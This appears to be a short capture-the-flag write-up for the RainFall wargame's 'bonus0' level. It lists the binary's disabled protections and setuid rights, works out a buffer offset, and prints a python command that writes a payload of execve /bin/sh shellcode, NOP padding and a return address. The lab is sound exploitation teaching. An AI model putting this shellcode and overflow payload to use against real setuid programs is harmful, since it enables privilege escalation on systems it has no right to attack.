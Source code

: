 bonus0 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
```

bonus0 rights:
```Shell
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```

address of s: 0xbffff736
offset: 54 (20(arg1) + 19(fake arg2) + 1(space) + 14(arg2))

payload: 21 bytes of shellcode + 33 bytes of padding + address of s

```Shell
level2@RainFall:~$ python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x90" * 33 + "\xbf\xff\xf7\x36"[::-1])' > /tmp/payload_b0
```

